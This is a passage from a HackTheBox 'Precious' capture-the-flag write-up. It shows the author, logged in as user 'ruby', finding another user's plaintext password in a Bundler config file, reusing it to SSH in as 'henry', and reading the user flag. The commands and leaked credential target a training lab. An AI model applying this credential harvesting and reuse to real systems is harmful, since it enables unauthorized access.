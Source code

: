NOTE: `Python2` doesnt work on this machine, so use `Python3` instead.

Notice that we are logged in as a `ruby` user and going in the `/home` directory, I found out that there were 2 users: `ruby` & `henry`

So, I went into `ruby's` directory first, and looked at all the files in ruby's directory and found an interesting directory.

```
ruby@precious:~$ ls -la
ls -la
total 28
drwxr-xr-x 4 ruby ruby 4096 Jan 28 01:08 .
drwxr-xr-x 4 root root 4096 Oct 26 08:28 ..
lrwxrwxrwx 1 root root    9 Oct 26 07:53 .bash_history -> /dev/null
-rw-r--r-- 1 ruby ruby  220 Mar 27  2022 .bash_logout
-rw-r--r-- 1 ruby ruby 3526 Mar 27  2022 .bashrc
dr-xr-xr-x 2 root ruby 4096 Oct 26 08:28 .bundle
drwxr-xr-x 3 ruby ruby 4096 Jan 28 01:08 .cache
-rw-r--r-- 1 ruby ruby  807 Mar 27  2022 .profile
ruby@precious:~$ cd .bundle
cd .bundle

```

Visiting the `.bundle` directory, I found a `config` file which contained the `username:password` of `henry`
```
ruby@precious:~/.bundle$ ls
ls
config
ruby@precious:~/.bundle$ cat config
cat config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"

```

Using this information, I tried to log in through `ssh` as `henry` and to my surprise, I was able to log in.

```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Linux-Boxes/Precious]
└─$ ssh henry@10.10.11.189
The authenticity of host '10.10.11.189 (10.10.11.189)' can't be established.
ED25519 key fingerprint is SHA256:1WpIxI8qwKmYSRdGtCjweUByFzcn0MSpKgv+AwWRLkU.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.189' (ED25519) to the list of known hosts.
henry@10.10.11.189's password: 
Linux precious 5.10.0-19-amd64 #1 SMP Debian 5.10.149-2 (2022-10-21) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
henry@precious:~$ ls
user.txt
henry@precious:~$ cat user.txt
[REDACTED]
```
